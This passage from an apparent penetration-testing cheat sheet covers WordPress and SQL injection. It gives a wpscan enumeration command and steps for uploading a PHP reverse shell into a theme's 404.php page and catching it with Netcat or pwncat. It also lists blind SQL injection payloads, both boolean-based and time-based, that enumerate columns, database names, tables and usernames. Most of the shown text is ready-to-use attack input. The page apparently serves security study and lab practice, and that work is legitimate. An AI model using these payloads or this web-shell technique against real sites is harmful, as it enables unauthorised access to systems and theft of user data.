 - #### WpScan:

```bash
# Scan WordPress websites.
wpscan --url http://wordpress.local --enumerate p
```

- #### Wordpress Reverse Shell:

```txt
1. Upload reverse.php into 404.php file in theme editor.
2. Set up a listener using Pwn-cat/Netcat.
3. Connect to theme's 404.php page : /wp-content/themes/theme_name/404.php
```

# SQL Injections

- #### Blind SQLi:

1. Boolean Based : 

```sql
-- In Boolean Based SQL blind injections we get the result in the form of : True/False, On/Off, 1/0, etc ...  

-- Number of Columns :
admin123' UNION SELECT 1,2,3;--                                                                   '

-- Database Name :
admin123' UNION SELECT 1,2,3 where database() like 's%';--                                        '

-- Tables Name :
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--                                                                           '

-- Columns Name (with id found as a column name) :
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';--                            '

-- Usernames : 
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
```

2. Time Based :

```sql
-- In Time Based Injections the result is confirmed by the time taken of the request.

-- Number of columns : 
admin123' UNION SELECT SLEEP(5),2;--                                                              '

-- Rest of The Procedure is The Same as the Boolean Based Attack.
```

# MySQL Databases
